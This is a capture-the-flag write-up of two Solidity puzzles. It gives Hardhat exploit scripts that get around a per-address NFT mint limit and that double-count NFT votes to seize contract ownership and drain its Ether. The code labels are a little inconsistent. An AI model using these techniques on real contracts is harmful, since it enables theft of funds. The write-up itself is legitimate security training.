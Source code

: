 
## Day 16 msg.sender spoofing

### RareSkills Riddles: Overmint3

Overmint3 is a very simple ERC721 NFT.  The objective here is to have a total of five tokens and do this in one transaction.  Let's take a look at the public ```mint()``` function.  

```Java
    function mint() external {
        require(!msg.sender.isContract(), "no contracts");
        require(amountMinted[msg.sender] < 1, "only 1 NFT");
        totalSupply++;
        _safeMint(msg.sender, totalSupply);
        amountMinted[msg.sender]++;
    }
```

There is a check to make sure that the caller is an EOA not a contract, and the amount minted is checked by address.  We cannot use a contract to directly attack this.  The exploit comes in the problem statement, we are trying to own five tokens, and one address can only mint one token.  This doesn't say anything about an address owning more than one token.  So we could have five different addresses each mint one token and then send those tokens to the attacker.  That is what is done and passes the challenge.  

```Javascript 
    describe("exploit", async function () {
        let victimContract, attackerWallet, extras
        before(async function () {
            ({ victimContract, attackerWallet, extras } = await loadFixture(setup));
        })

        it("conduct your attack here", async function () {
            await victimContract.connect(attackerWallet).mint();
            await victimContract.connect(extras[0]).mint();
            await victimContract.connect(extras[0]).transferFrom(extras[0].address, attackerWallet.address, 2);
            await victimContract.connect(extras[1]).mint();
            await victimContract.connect(extras[1]).transferFrom(extras[1].address, attackerWallet.address, 3);
            await victimContract.connect(extras[2]).mint();
            await victimContract.connect(extras[2]).transferFrom(extras[2].address, attackerWallet.address, 4);
            await victimContract.connect(extras[3]).mint();
            await victimContract.connect(extras[3]).transferFrom(extras[3].address, attackerWallet.address, 5);
        });
```

### RareSkills Riddles: Democracy

Democracy is an NFT voting system and we, the attacker are the challenger.  The incumbant has rigged the election so that once our vote has been cast they will be delcared the winner so rather than fight this injustice our job is to rob them and take off.  The objective is to drain the contract of its 1 Ether, and hopefully we can swing the election to our favor.    

The Democracy contract is quite large at 181 lines, there are a number of things to note.  The first thing is the ```_rigElection()``` method.  

```Java
    function _rigElection() private {
        // Mint voting tokens to challenger
        _mint(challenger, 0);
        _mint(challenger, 1);

        // Make it look like a close election...
        votes[incumbent] = 5;
        votes[challenger] = 3;
    }

    function _callElection() private {
        electionCalled = true;

        if (votes[challenger] > votes[incumbent]) {
            incumbent = challenger;
            _transferOwnership(challenger);

            challenger = address(0);
        }
    }

    function withdrawToAddress(address address_) external onlyOwner {
        payable(address_).call{value: address(this).balance}("");
    }
```

This method gives us two NFTs to vote with.  The second thing to note is that the incumbant has five votes and we have three, so we will need to use more than the two provided NFTs to vote.  In the ```_callElection()``` method we see that if we win the election we will take ownership of the contract, and with ownership we can call ```withdrawToAddress()``` to extract all the Ether.  Very interesting.  Now we just need to figure out how to win the election.  

Now let's look at the voting function: 

```Java
    function vote(address nominee)
        external
        contractBalanceIsGreaterThanZero
        electionNotYetCalled
        nomineeIsValid(nominee)
        hodlerNotYetVoted
    {
        // Check NFT balance
        uint256 hodlerNftBalance = balanceOf(msg.sender);
        require(
            hodlerNftBalance > 0,
            "DemocracyNft: Voting only for NFT hodlers"
        );

        // Log votes
        votes[nominee] += hodlerNftBalance;
        voted[msg.sender] = true;

        // Tip hodler for doing their civic duty
        payable(msg.sender).call{value: address(this).balance / 10}("");

        // Once all hodlers have voted, call election
        if (votes[incumbent] + votes[challenger] >= TOTAL_SUPPLY_CAP) {
            _callElection();
        }
    }

    modifier hodlerNotYetVoted() {
        require(!voted[msg.sender], "DemocracyNft: One hodler, one vote");
        _;
    }
```

In ```vote()``` there are a number of modifiers used they check: the election is still going on, the contract sill holds Ether, the nominee is valid, and the hodler has not yet voted.  THe last item is check by msg.sender.  In fact all accounting is done by msg.sender not the the NFT id.  There is a balance check also done by msg.sender.  In many methods in the contract it requires the caller to not be a contract, however there is no check on that in ```vote()```, so we can call it with a contract and do some sort of reentrancy attack.  Since everything is checked by address we can create a contract that votes for the challenger (with two votes) then does a reentrancy attack by transfering one (or two) tokens to another entity and voting again.  There is some code preventing this.  

```Java
    function approve(address to, uint256 tokenId)
        public
        override
        callerIsNotAContract
    {
        _approve(to, tokenId);
    }

    function transferFrom(
        address from,
        address to,
        uint256 tokenId
    ) public override callerIsNotAContract {
        require(
            _isApprovedOrOwner(_msgSender(), tokenId),
            "ERC721: caller is not token owner or approved"
        );

        _transfer(from, to, tokenId);
    }

    function safeTransferFrom(
        address from,
        address to,
        uint256 tokenId
    ) public override callerIsNotAContract {
        require(
            _isApprovedOrOwner(_msgSender(), tokenId),
            "ERC721: caller is not token owner or approved"
        );

        _safeTransfer(from, to, tokenId, "");
    }
```

The above code says that our attack contract cannot call any of these methods.  So we will have to call them with our EOA.  Here is the modified attack: 1. nominate the attacker EOA as the challenger 2. transfer one token to the attack contract 3. vote one time 4. transfer the second token to the attack contract.  5. have the attack contract vote (no reentrancy needed).

```Javascript
    it("conduct your attack here", async function () {
      // 1. nominate the attacker EOA as the challenger
      await victimContract.connect(owner).nominateChallenger(attackerWallet.address);

      // 2. transfer one token to the attack contract
      await victimContract.connect(attackerWallet).transferFrom(attackerWallet.address, attacker2Wallet.address, 0);

      // 3. vote one time (as attacker)
      await victimContract.connect(attackerWallet).vote(attackerWallet.address);

      // 4. transfer the second token to the attack contract.  
      await victimContract.connect(attackerWallet).transferFrom(attackerWallet.address, attacker2Wallet.address, 1);

      // 5. have the attack contract vote (no reentrancy needed).
      await victimContract.connect(attacker2Wallet).vote(attackerWallet.address);

      // 6. attacker wins the election and withdraws the balance
      await victimContract.connect(attackerWallet).withdrawToAddress(attackerWallet.address);
    });
```